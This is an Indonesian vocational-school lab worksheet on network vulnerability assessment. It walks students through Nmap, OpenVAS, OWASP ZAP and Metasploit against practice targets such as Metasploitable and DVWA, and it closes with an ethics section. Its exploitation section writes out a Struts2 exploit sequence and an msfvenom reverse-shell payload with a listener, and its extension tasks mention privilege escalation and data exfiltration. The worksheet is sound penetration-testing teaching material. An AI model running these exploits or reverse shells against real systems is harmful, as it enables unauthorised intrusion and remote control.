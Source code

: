 # 🛠️ Praktikum: Analisis Kerentanan Jaringan

## 🎯 Tujuan Pembelajaran
Setelah menyelesaikan praktikum ini, peserta didik mampu:
1. Melakukan pemindaian kerentanan jaringan
2. Menganalisis hasil pemindaian keamanan
3. Mengidentifikasi kerentanan umum pada sistem
4. Melaporkan temuan kerentanan
5. Merekomendasikan tindakan perbaikan

## 📋 Persiapan

### 1. Peralatan yang Diperlukan
- Komputer dengan sistem operasi Linux (disarankan Kali Linux)
- Mesin virtual (VirtualBox/VMware)
- Target uji (Metasploitable, DVWA, atau sistem rentan lainnya)
- Koneksi jaringan yang stabil

### 2. Perangkat Lunak yang Diperlukan
- Nmap
- OpenVAS/GVM
- OWASP ZAP
- Wireshark
- Metasploit Framework
- Nikto

## 📝 Langkah Kerja

### 1. Pemindaian Jaringan dengan Nmap

#### 1.1 Pemindaian Port Dasar
```bash
# Pemindaian port TCP
sudo nmap -sS -T4 -A -v target_ip -oN nmap_scan.txt

# Pemindaian UDP (memerlukan hak akses root)
sudo nmap -sU -T4 target_ip -oN nmap_udp_scan.txt

# Deteksi sistem operasi dan versi layanan
sudo nmap -O -sV target_ip -oN nmap_os_scan.txt
```

#### 1.2 Pemindaian dengan NSE Script
```bash
# Cari kerentanan umum
sudo nmap --script vuln target_ip -oN nmap_vuln_scan.txt

# Periksa kerentanan SMB
sudo nmap --script smb-vuln-* --script-args=unsafe=1 -p 445 target_ip

# Periksa kerentanan HTTP
sudo nmap --script http-vuln-* -p 80,443 target_ip
```

### 2. Analisis Kerentanan dengan OpenVAS/GVM

#### 2.1 Persiapan OpenVAS
```bash
# Mulai layanan GVM
sudo gvm-start

# Buka browser dan akses:
# https://127.0.0.1:9392
# Login dengan kredensial default (admin/admin)
```

#### 2.2 Membuat Target dan Task
1. Buka tab "Configuration" > "Targets"
2. Klik ikon bintang untuk membuat target baru
3. Isi detail target (nama, host, port)
4. Simpan target
5. Buat task baru di tab "Scans" > "Tasks"
6. Pilih target yang telah dibuat
7. Mulai pemindaian

#### 2.3 Menganalisis Hasil
1. Setelah pemindaian selesai, buka laporan
2. Identifikasi kerentanan berdasarkan tingkat keparahan
3. Catat detail kerentanan (deskripsi, dampak, solusi)
4. Ekspor laporan dalam format PDF/HTML

### 3. Pengujian Keamanan Aplikasi Web dengan OWASP ZAP

#### 3.1 Konfigurasi Dasar
1. Buka OWASP ZAP
2. Konfigurasi browser untuk menggunakan ZAP sebagai proxy (localhost:8080)
3. Aktifkan mode pengguna aktif (HUD)

#### 3.2 Pemindaian Otomatis
```
1. Masukkan URL target di ZAP
2. Klik kanan pada situs target
3. Pilih "Attack" > "Active Scan"
4. Tinjau hasil pemindaian di tab "Alerts"
```

#### 3.3 Analisis Manual
1. Identifikasi parameter URL yang rentan
2. Uji input dengan payload XSS dan SQLi
3. Periksa header keamanan (CSP, HSTS, dll.)
4. Uji manajemen sesi dan autentikasi

### 4. Eksploitasi dengan Metasploit Framework

#### 4.1 Mencari Eksploit yang Tersedia
```bash
msfconsole
msf6 > search type:exploit platform:linux
msf6 > use exploit/multi/http/struts2_content_type_ognl
msf6 (exploit) > show options
msf6 (exploit) > set RHOSTS target_ip
msf6 (exploit) > set TARGETURI /struts2-showcase/
msf6 (exploit) > exploit
```

#### 4.2 Membuat Payload dengan msfvenom
```bash
# Buat payload reverse shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=your_ip LPORT=4444 -f elf > shell.elf

# Setelah file diunggah ke target
chmod +x shell.elf
./shell.elf

# Di mesin penyerang
msf6 > use exploit/multi/handler
msf6 (exploit) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
msf6 (exploit) > set LHOST your_ip
msf6 (exploit) > exploit
```

## 📋 Laporan Praktikum

### 1. Pendahuluan
Jelaskan tujuan dan latar belakang praktikum analisis kerentanan jaringan.

### 2. Alat dan Bahan
Daftar semua peralatan dan perangkat lunak yang digunakan.

### 3. Langkah Kerja
Jelaskan langkah-langkah yang telah dilakukan selama praktikum.

### 4. Hasil Pengamatan
#### 4.1 Hasil Pemindaian Nmap
```
# Tempelkan hasil perintah nmap yang relevan
```

#### 4.2 Temuan OpenVAS/GVM
- Daftar 5 kerentanan kritis/high yang ditemukan
- Dampak potensial dari setiap kerentanan

#### 4.3 Hasil OWASP ZAP
- Daftar kerentanan yang ditemukan
- Contoh payload yang berhasil mengeksploitasi kerentanan

### 5. Analisis
1. Kerentanan apa yang paling berbahaya? Mengapa?
2. Bagaimana cara mengamankan sistem dari kerentanan yang ditemukan?
3. Langkah-langkah apa yang harus diambil untuk mencegah serangan serupa di masa depan?

### 6. Kesimpulan dan Rekomendasi
Berikan kesimpulan dari praktikum dan rekomendasi perbaikan.

## 📌 Tantangan Lanjutan
1. Coba lakukan privilege escalation pada sistem target
2. Eksplorasi teknik bypass autentikasi
3. Coba eksfiltrasi data dari sistem target

## ⚠️ Etika dan Keamanan
1. HANYA lakukan pengujian pada sistem yang Anda miliki atau memiliki izin tertulis
2. Dokumentasikan SEMUA aktivitas pengujian
3. Laporkan kerentanan yang ditemukan kepada pemilik sistem
4. Patuhi hukum dan peraturan yang berlaku

## 📚 Referensi
1. NIST Special Publication 800-115: Technical Guide to Information Security Testing and Assessment
2. OWASP Testing Guide v4.2
3. Metasploit: The Penetration Tester's Guide
4. Nmap Network Scanning (2023) - Gordon Lyon

---
<div align="center">
  <p>Lembar Kerja Praktikum - Analisis Kerentanan Jaringan</p>
  <p>© 2025 SMKN 1 Punggelan - Program Keahlian Teknik Komputer dan Jaringan</p>
</div>
